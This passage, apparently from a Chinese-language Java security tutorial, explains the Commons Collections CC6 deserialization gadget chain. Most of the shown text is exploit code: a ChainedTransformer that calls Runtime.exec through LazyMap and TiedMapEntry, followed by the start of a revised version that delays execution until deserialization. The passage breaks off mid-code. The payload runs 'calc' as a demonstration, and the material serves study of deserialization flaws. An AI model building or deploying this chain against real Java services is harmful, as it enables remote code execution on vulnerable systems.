 [![](assets/1700127979-84e2cf84dbce5a3bf81918246f206ac6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155122-ef9f604c-8454-1.png)

containsKey判断键值，我们把key写成个随意的让其判断为false从而调用到`factory.transform(key);`而这里的factory就是要等于`chainedTransformer`这块上面也讲到了。

至此我们一定大体理解了这个CC-6这条链子的思路，我们尝试着去写一下exp

```plain
public static void main(String[] args) throws Exception{
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer cha = new ChainedTransformer(Transformers);

        HashMap<Object,Object> m1 = new HashMap<>();//设置一个空的map以便过map.containsKey
        Map<Object,Object> Lazymap = LazyMap.decorate(m1,cha);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"zxh");//LazyMap.get()这个方法的调用本来就没有参数，所以我们第二个参数为就随便写即可

        HashMap<Object,Object> m2 = new HashMap<>();
        m2.put(tiedMapEntry,"lituer");//触发hash()

    }
```

在执行的时候我们发现成功弹出了计算器，但是这并不是我们想要的结果，我们先要的是在序列化的时候不弹出计算机，在反序列化的时候就弹出计算器执行命令，但现在的情况却恰恰相反，这一幕和URLDNS这条链何其相似。

甚至修改的思路都是差不多的。

因为我们调用了put方法会一直执行的到危险函数，所以我们需要就行将序列化过程中的某个关键参数改变，然后再序列化过程完毕之后再听过反射的方法修改过来。

```plain
public static void main(String[] args) throws Exception{
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer cha = new ChainedTransformer(Transformers);

        HashMap<Object,Object> m1 = new HashMap<>();//设置一个空的map以便过map.containsKey
        Map<Object,Object> Lazymap = LazyMap.decorate(m1,new ConstantTransformer(1234));

```